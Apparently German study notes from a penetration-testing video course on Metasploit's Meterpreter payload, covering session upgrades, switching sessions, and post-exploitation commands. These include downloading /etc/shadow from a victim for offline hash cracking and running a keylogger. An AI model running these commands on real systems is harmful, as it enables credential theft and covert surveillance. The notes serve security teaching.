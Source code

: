 ```yaml
---
title: Meterpreter
---
```




Video 163

Ist eine besondere shell.

Meterpreter ist eine payload die in msf ausgewählt werden kann. 

![image-20210519172415118](fig/image-20210519172415118.png)

Payload kann oft wenige 100 Bytes betragen. Daher staged ... nachladen von Modulen

Video 164 Einführung in Meterpreter

Mit msf Multihandler kann man die aktuelle shell session in den Hintergrund bringen (Ctrl-z). 

Anzeige aller Sessions: 

```
msf > sessions -l
```

mit

```
msf > sessions -u 1
```

Wird die Session 1 auf eine Meterpreter shell "upgegraded" – es entsteht eine neue zusätzliche Session.

Hintergrundinfo: `-u` ruft ein msf Exploit Modul auf, dass aus einer "normalen" shell eine Meterpreter shell machen kann.

Wechseln in die neue Session:

```
msf > session -i 2
```

meta interpreter (meterpreter) ist eins der killer features von metasploit. Ist eine payload die auf dem Opfersystem komplett im Arbeitsspeicher läuft. 

Meterpreter kann sich am Zielsystem vor AV Programmen verbergen und die Kommunikation verschlüsseln, außerdem können Module nachgeladen werden.

```
meterpreter > help
...
```

Video 165 Meterpreter in der Praxis

Zugriff auch auf das lokale Dateisystem z.B. über `lcd`, `lls`

Laden einer remote Datei:

```
meterpreter > cd /etc
meterpreter > help download
meterpreter > download shadow
```

Offline Angriff auf die Hashwerte wäre jetzt möglich.

Plaintext shells können keinen Editor starten. metapreter stellt hingegen vim zur Verfügung – über den Befehl edit. 

166. Meterpreter-Shell für Windows

`msfvenom` gehört zum Metasploitable Framework und ermöglicht das erstellen von Programmen mit beliebiger Payload.

...

Einfacher keylogger

```
keyscan_start
keyscan_dump
keyscan_stop
```

167. Externe Module in Meterpreter laden

```
load <TAB> <TAB>
...
```



